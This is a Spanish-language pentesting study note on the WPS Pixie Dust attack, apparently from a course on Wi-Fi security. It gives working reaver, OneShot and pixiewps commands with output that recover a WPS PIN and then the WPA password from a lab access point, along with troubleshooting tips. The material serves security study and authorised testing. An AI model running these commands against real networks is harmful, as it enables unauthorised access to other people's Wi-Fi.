

---
tags:
  - Wi-Fi/WPS
  - Pentesting/Explotacion
Descripción: "Lanzar Pixie Dust con reaver y OneShot, leer la salida para identificar el modo de fallo y canjear el PIN por la contraseña"
Fecha de actualización: 2026-08-01
Nota previa: "[[07 - Pixie Dust y el fallo de entropía]]"
Nota siguiente: "[[09 - Push Button Configuration y sus abusos]]"
Area: "[[WPS.base|WPS]]"
---
---

Dos herramientas cubren el ataque: **`reaver`** con `-K`, que integra `pixiewps` internamente, y **`OneShot`**, que no necesita modo monitor. El motor de cálculo es el mismo — [`pixiewps`](https://github.com/wiire-a/pixiewps) — y ambas lo invocan por debajo.

# Con reaver

```shell-session
$ sudo iw dev wlan0 interface add mon0 type monitor
$ sudo ip link set mon0 up
$ sudo airodump-ng mon0 --wps -c 1

 BSSID              PWR Beacons  CH  ENC  CIPHER AUTH WPS  ESSID
 86:FC:9F:5D:67:4E  -28      11   1  WPA2 CCMP   PSK  2.0  HackMe
```

```shell-session
$ sudo reaver -K -vvv -b 86:FC:9F:5D:67:4E -c 1 -i mon0

[+] Switching mon0 to channel 1
[+] Waiting for beacon from 86:FC:9F:5D:67:4E
[+] Received beacon from 86:FC:9F:5D:67:4E
[?] Mode: 1 (RT/MT/CL)
[*] Seed N1:  0x08098b13
[*] Seed ES1: 0x00000000
[*] Seed ES2: 0x00000000
[*] PSK1: fe3fce4475701deda27e52518cc8be56
[*] PSK2: 2dc52385b199358cea1ad97d1995bca2
[*] ES1:  00000000000000000000000000000000
[*] ES2:  00000000000000000000000000000000
[+] WPS pin: 32552273

[*] Time taken: 0 s 34 ms
```

<mark style="background: #FFB86CA6;">34 milisegundos</mark>, frente a las horas de la fuerza bruta online.

> [!warning]+ `-K` no lleva argumento
> Circulan comandos con `reaver -K 1`, incluido el del módulo de HTB. Verificado en el `usage` de [`wpscrack.c`](https://github.com/t6x/reaver-wps-fork-t6x/blob/master/src/wpscrack.c): la opción es `-K, --pixie-dust` **sin parámetro**, y `-Z` es su sinónimo. <mark style="background: #FFB8EBA6;">Ese `1` es un vestigio de versiones antiguas donde seleccionaba el modo de pixiewps</mark>; hoy no hace nada, y según cómo se ordenen los argumentos puede acabar interpretado como un parámetro suelto. Lo correcto es `-K` a secas.

## Leer la salida

La línea `Mode:` identifica **qué fallo se ha explotado**, y es información que merece la pena anotar para el informe:

| Modo | Chipsets | Fallo |
| ---- | -------- | ----- |
| `1 (RT/MT/CL)` | Ralink, MediaTek, Celeno | Nonces siempre a cero |
| `2` | eCos, variante simple | PRNG débil |
| `3 (RTL819x)` | Realtek | Semilla derivada del timestamp |
| `4` / `5` | eCos, otras variantes | PRNG débil |

`Seed ES1: 0x00000000` confirma el caso de nonce nulo. Con `Mode: 3` aparecerían semillas temporales en lugar de ceros.

Por defecto `pixiewps` prueba todos los modos (`[Auto]`); se puede acotar con `--mode N` o con una lista separada por comas si ya se sabe el chipset. <mark style="background: #FFB8EBA6;">Acotarlo sólo ahorra milisegundos</mark>, así que en la práctica se deja en automático.

Con un chipset **Realtek** (modo 3) conviene añadir `-u`, que hace que reaver le pase a `pixiewps` el *uptime* del AP —dato del que se deriva la semilla en ese modo— y sin el cual el ataque puede fallar contra un objetivo vulnerable. El detalle de cómo se construye la llamada está en [[02 - Pixiewps]].

## Canjear el PIN por la contraseña

Pixie Dust devuelve el **PIN**, no la `WPA-PSK`. Hace falta un segundo intercambio, esta vez completo:

```shell-session
$ sudo reaver -i mon0 -b 86:FC:9F:5D:67:4E -c 1 -p 32552273

[+] Associated with 86:FC:9F:5D:67:4E (ESSID: HackMe)
[+] WPS PIN: '32552273'
[+] WPA PSK: 'Contrasena-de-la-red'
[+] AP SSID: 'HackMe'
```

Un único intento con el PIN correcto: no dispara ningún bloqueo.

# Con OneShot

`OneShot` tiene una ventaja operativa notable: <mark style="background: #8000E1A6;">funciona sobre `wpa_supplicant` en lugar de inyectar tramas crudas</mark>, lo que lo hace más tolerante con drivers que dan problemas de inyección.

```shell-session
$ sudo python3 /opt/OneShot/oneshot.py -i wlan0 -b 86:FC:9F:5D:67:4E -K

[*] Running wpa_supplicant…
[*] Trying PIN '61212947'…
[*] Seed N1:  0xb9d0ec1c
[*] Seed ES1: 0x00000000
[*] Seed ES2: 0x00000000
[+] WPS pin: 32552273
[*] Time taken: 0 s 27 ms
```

> [!warning]+ OneShot no necesita modo monitor
> El módulo de HTB crea una interfaz monitor antes de ejecutarlo. **No hace falta**: OneShot habla con `wpa_supplicant` sobre la interfaz gestionada. Ponerla en monitor puede incluso estorbar, porque `wpa_supplicant` no opera sobre una interfaz en ese modo. Lo que sí conviene es liberar la interfaz de `NetworkManager` — ver [[05 - Modos de operación y modo monitor]].

> [!warning]+ El repositorio original desapareció
> `drygdryg/OneShot`, el proyecto de referencia durante años, **ya no está disponible en GitHub** (comprobado el 2026-08-01). El fork que enlaza HTB, [`fulvius31/OneShot`](https://github.com/fulvius31/OneShot), <mark style="background: #FF5582A6;">sí está vivo y mantenido</mark> — un centenar de estrellas y cambios en junio de 2026. Es el que hay que usar, revisando el código antes: un fork de una herramienta desaparecida es un blanco evidente para suplantación.

OneShot incorpora además el modo `-K` combinado con generación de PIN, y su opción `--pbc` para el ataque de botón — [[09 - Push Button Configuration y sus abusos]].

# Pixiewps directamente

Cuando ya se tienen los valores —de una captura, de otra herramienta o de un `.pcap` guardado con `reaver -O`— se puede invocar el motor solo:

```shell-session
$ pixiewps -e <PKe> -r <PKr> -s <E-Hash1> -z <E-Hash2> -a <AuthKey> -n <E-Nonce>
```

Es la vía para el escenario más silencioso: **recuperar la PSK de una captura pasiva completa (M1–M7)** con `--mode 3`, sin haber transmitido nada. Ver [[02 - Pixiewps]].

# Qué hacer cuando falla

```text
[-] WPS pin not found!
```

Significa que el chipset genera nonces con entropía real. La ruta a partir de ahí:



Otras causas de fallo que no son el chipset y conviene descartar antes de rendirse:

- **Falta `-u` contra un Realtek.** El modo 3 deriva la semilla del reloj del AP, así que `pixiewps` necesita su *uptime*. <mark style="background: #FF5582A6;">Reaver sólo se lo pasa si se añade `-u`</mark> — sin esa bandera, un AP perfectamente vulnerable puede dar `pin not found`:
  ```shell-session
  $ sudo reaver -K -u -vvv -i mon0 -b <BSSID> -c <canal>
  ```
- **Señal insuficiente.** El intercambio necesita completarse hasta M3; con muchas retransmisiones falla. Comprobar con `aireplay-ng --test`.
- **Driver que no inyecta bien.** Probar con OneShot, que no depende de la inyección.
- **Interfaz creada con `airmon-ng`.** El fallo conocido de reaver — crearla con `iw`.
- **WPS bloqueado de antemano.** Aunque Pixie Dust no dispare el bloqueo, un AP ya bloqueado no responde. Verificar con `wash`.

El otro método de conexión WPS, que se ataca de forma completamente distinta, es [[09 - Push Button Configuration y sus abusos]].
